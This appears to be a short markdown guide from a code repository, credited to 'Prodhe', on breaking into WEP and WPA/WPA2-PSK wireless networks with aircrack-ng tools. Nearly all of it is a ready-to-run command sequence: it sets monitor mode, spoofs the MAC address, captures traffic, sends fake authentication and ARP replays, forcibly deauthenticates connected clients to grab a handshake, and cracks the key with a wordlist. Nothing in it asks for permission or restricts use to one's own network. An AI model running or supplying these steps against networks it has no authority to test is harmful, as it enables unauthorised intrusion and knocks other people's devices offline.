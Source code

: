 Hack a WiFi (WEP/WPA/WPA2-PSK) network
======================================


Applications
------------

- aircrack-ng
http://www.aircrack-ng.org/
- macchanger
http://www.alobbs.com/macchanger/
- big wordlist of your choice, eg
http://www.openwall.com/wordlists/


Preparation
-----------

List network interfaces

	# iwconfig

Shut down and set interface to monitor mode

	# ifconfig <INTERFACE> down
	# iwconfig <INTERFACE> mode monitor

Switch MAC address (6 bytes) and activate

	# macchanger --mac <MAC>
	# ifconfig <INTERFACE> up

Scan the air for target

	# airodump-ng <iNTERFACE>

Get BSSID, ESSID and channel
Switch interface to monitor mode and target channel

	# ifconfig <INTERFACE> down
	# iwconfig <INTERFACE> mode managed
	# iwconfig <INTERFACE> channel <CHANNEL/FREQ>
	# ifconfig <INTERFACE> down
	# iwconfig <INTERFACE> mode monitor
	# ifconfig <INTERFACE> up

Verify wifi channel and monitor mode

	Channel 1:	2.412Ghz
	Channel 2:	2.417Ghz
	Channel 3:	2.422Ghz
	...

	# iwconfig <INTERFACE>


Capturing data
--------------

Scan, log and save

	# airodump-ng --channel <CHANNEL> --write <OUTPUTNAME> --bssid <BSSID> <INTERFACE>


Fakeauth, arpreply and de-auth
------------------------------

### WEP

Associate with AP using standard WEP. This does not work on WPA/WPA2.

	# aireplay-ng --fakeauth 0 -a <BSSID> -h <MAC> -e <ESSID> <INTERFACE>

If successful, increase traffic to collect more data (optional)

	# aireplay-ng --arpreplay -b <BSSID> -h <MAC> <INTERFACE>

If ARP count slows down, keep reassociate


### WPA(2)

Need only one valid handshake for offline dictionary attack

Force it by de-auth an already associated client

	# aireplay-ng --deauth 3 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>


Crack password
--------------

### WEP

If enough data - crack the cap(ture) file

	# aircrack-ng -b <BSSID> <OUTPUTNAME>*.cap

### WPA(2)

Need only a valid handshake and a big wordlist.
If you have both, go ahead:

	# aircrack-ng -w <WORDLISTFILE> <OUTPUTNAME>*.cap

Done.

---

*Written by Prodhe*
